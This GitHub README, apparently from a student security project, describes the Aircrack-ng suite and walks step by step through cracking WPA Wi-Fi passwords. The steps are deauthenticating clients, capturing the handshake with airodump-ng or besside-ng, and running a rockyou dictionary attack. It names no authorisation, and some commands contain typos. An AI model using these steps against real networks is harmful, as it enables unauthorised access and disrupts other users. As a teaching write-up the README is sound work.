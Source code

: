 # Aircrack-ng Suite

Aircrack-ng is an open source tool for cracking and securing wireless network.  It is all in one suite allows you to keep an eye on WiFi security, and capture data packets. WiFi cards can be captured and injected to test their performance. It can also be used by pen testers to attack and crack the WPA and WEP protocols.

It mainly focuses on four areas of wifi security:

-  **Monitoring:** Data is captured in packets and exported to text files for processing by third-party software.

-  **Attacking:**  Packet injection can be used to perform replay attacks, deauthentication, and create bogus access points, among other things.

-  **Testing:** Testing the capabilities of WiFi cards and drivers

-  **Cracking:** WEP and WPA1/WPA2 PSK.

There are several aircrack-ng modes (Click here to view) but we are using only the following modes.

- [Airmon-ng:](https://www.aircrack-ng.org/doku.php?id=airmon-ng)  It's used to switch between monitor and managed modes. The status of the interfaces can be viewed by running the airmon-ng command without any parameters. It can also list and kill programmes that may cause the wireless card to malfunction.
- [Airodump-ng:](https://www.aircrack-ng.org/doku.php?id=airodump-ng): Airdump-ng is a tool that lists all of the networks in our immediate vicinity and displays relevant information about them. It's a packet sniffer, which means it's meant to capture all of the packets that pass across our network when we're in Monitor mode. We may run it against all of the networks to gather relevant information such as the mac address, channel name, encryption type, and number of clients connected to the network, and then begin targeting the target network. We can also use it against a specific AP (access point) to collect only packets from a specific Wi-Fi network.

- [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng): Aireplay-ng is a programme that generates unnecessary wireless traffic. It can hack WEP and WPA keys when combined with aircrack-ng. It's function is to insert frames. aireplay-ng has the ability to perform a variety of powerful strikes, including the creation and capture of new IVs. [Here](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) are some other forms of attacks:

- [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng): It is the best of both worlds. It automatically cracks WEP and WPA network. Note Wesside-ng supports only WEP but Besside-ng can support both WEP and WPA network.Besside-ng has the capability to crack all the associated WEP networks and log the WPA handshakes. And WPA handshakes can then be cracked using aircrack-ng. It is a combination of easside-ng and wesside-ng. 
	- [Easside-ng:](https://www.aircrack-ng.org/doku.php?id=easside-ng)
Easside-ng is a tool which allows to communicate via an WEP-encrypted access point (AP) without knowing the WEP key. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme and then setup a TAP interface so that one can communicate with the AP without requiring the WEP key. All this is done automatically.
	- [Wesside-ng:](https://www.aircrack-ng.org/doku.php?id=wesside-ng)
Wesside-ng is a tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme, reinject ARP requests and finally determine the WEP key. All this is done automatically.

## Pre-requisites:

- **Software:** We are using Kali Linux through VMware.

- **Hardware:** Wifi adaptor is necessary to inject packets and attack Wifi. Our laptop only has only inbuilt wifi adapter, which is insufficient. To put it another way, we require a wireless adapter that supports monitor mode and packet injection. [Here](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html) is a list of compatible adapters for pen testing.

The chipset we have is the TP-LINK TL-WN722N.


<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/tplink.jpg" width="300" height="300"></p>

However, according to the list of compatible adaptors, Version 1 is the only version that is compatible, yet we received Version 3. To enable the monitor mode in V3, we followed a few steps. [Click here to view the steps](https://github.com/megha-511/Aircrack-ng/blob/8083e818320b3b7c8485f83ef2c2c9ac05138571/Enable%20monitoring%20mode%20in%20V2_3.docx)

## 1. Crack WPA

1. 

    sudo airmon-ng wlan0
    
    iwconfig

This should show wlan0 in monitor mode.

2.

Sudo airmon-ng

Wlan0 must be changed to wlan0mon by now if not follow the steps below: ([Source)](https://www.reddit.com/r/Kalilinux/comments/nm14i5/my_wlan0_doesnt_change_to_wlan0mon_but_it_shows/)

`sudo airmon-ng stop wlan0`

`sudo Systemctl disable NetworkManager`

`sudo ip link set wlan0 down`

`sudo ip link set wlan0 name wlan0mon`

`sudo systemctl enable NetworkManager`

Now check for iwconfig it should show up wlan0mon.

3. To get the bssid of the target network and channel number: `sudo airodump wlan0mon`

4. `sudo airodump wlan0mon -d <target bssid>`

5. Wait until some connections are found

6. `sudo airodump -w wifiHack1 -c <channel_number> --bssid <target bssid> wlanomon`

  - w : write to wifiHack1 file which is used to store the 4 way handshake

7. In a separate window let’s deauthenticate all the users. When they connect back we can capture the handshake. `sudo aireplay –deauth 0 -a <bssid> wlan0mon`

8. Until new client joins the network please wait. You can see handshake on the top right corner of the screen where you hit airodump query.

9. Once handshake is captured, perform following tasks to do dictionary attack on the capture file to retrieve the wifi password.

-

sudo airmon-ng stop wlan0mon

sudo aircrack-ng wifiHack1-01.cap -w /usr/share/wordlists/rockyou.txt

That’s it! The wifi password will be cracked if it is common and simple by using dictionary attack. For complex passwords we need a strong GPU processor to crack it.

## 2. besside-ng

- How besside works?
<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/How%20besside-ng%20works.jpg" width="300" height="300"></p>

- We have followed the below steps to auto capture the WPA handshake and crack using aircrack-ng:

1.  `sudo airmon-ng start wlan0mon`

2. Capture the bssid of the target network: `sudo airodump-ng wlan0mon`

3. `sudo airodump -w bessideHack -c <channel number> -d <bssid of the target> wlan0mon`

4. To autogenerate the capture file called wpa.cap: `sudo besside-ng -b <bssid>  wlan0mon`

- There is a small problem with besside as it creates malformed packets and no management frames. There is a work around for this,  we need to merge the capture files generated by airodump and the besside. [Source](https://security.stackexchange.com/questions/121636/missing-essid-from-aircrack-ng)

- `Mergecap -w merged.cap bessideHack.cap wpa.cap`

- `Wireshark merged.cap`

- Open .cap file with Wireshark: `wireshark wpa.cap`

- Right-click on the malformed packet and choose “Ignore”

- File -> Export Specified Packets

- Select “Remove Ignored Packets”

- Save the file as wpa1.pcap

6. `sudo aircrack-ng wpa1.pcap -w /usr/share/wordlists/rockyou.txt`

## Reference and Additional resources:
- Frame injection: [Github](https://github.com/aircrack-ng/rtl8188eus)
- [Frame Vs Packet](https://www.networkworld.com/article/3225865/ethernet-frames-and-packets-whats-the-difference.html)
- Fragment and Forge: Breaking Wi-Fi Through Frame Aggregation and Fragmentation[usenix2021.pdf (mathyvanhoef.com)](https://papers.mathyvanhoef.com/usenix2021.pdf)
- [4-way Handshake attack](https://netbeez.net/blog/secure-network-4-way-handshake/#:~:text=The%204-Way%20Handshake%20utilizes,Handshake%20occurs%20after%20EAP%20authentication.)
